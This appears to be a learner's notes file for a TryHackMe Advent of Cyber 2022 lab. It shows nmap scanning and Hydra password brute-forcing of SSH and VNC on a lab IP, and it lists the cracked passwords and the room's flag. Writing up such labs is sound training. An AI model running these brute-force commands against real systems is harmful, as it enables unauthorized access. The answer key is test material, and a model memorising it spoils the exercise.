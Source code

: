 -----------------------------
	  TryHackMe!
Advant of Cyber 4 2022
export $IP=10.10.45.218
   Date - 5/12/2022
-----------------------------

-------------------
# Full Forms -->
-------------------

SSH = Secure Shell
RDP = Remote Desktop Protocol
VNC = Virtual Network Computer

---------------------------------------------------
# Scanning Phase (Result is in the directory) --> 
---------------------------------------------------
## NMAP -->
	nmap -vv -sSV 10.10.45.218 -oN nmap/initial

-----------------------------------
# Password Brute Force Atteck -->
-----------------------------------
## Hydra -->
	SSH -->
		hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.218
	VNC -->
		hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 16 vnc://10.10.45.218

port 5900 is default for vnc.

------------------------------------------------
## process of stablishing the vnc Connect -->
------------------------------------------------
After Determining the password for vnc i installed a opensource and free application called `Remmina` and then connected through the ip and the password.

### syntax to install the app :--
	`sudo apt install remmina -y`



----------------
# PASSWORDS -->
----------------
## SSH:-->
	sakura

## VNC:-->
	1q2w3e4r

----------------------------
# Questions & Answers -->
----------------------------

## 1. Use Hydra to find the VNC password of the target with IP address MACHINE_IP. What is the password? -->
----------------------------------------------------------------------------------------------------------------------
--> 1q2w3e4r

-------------------
## 2. Flag -->
-------------------
-->	THM{I_SEE_YOUR_SCREEN}

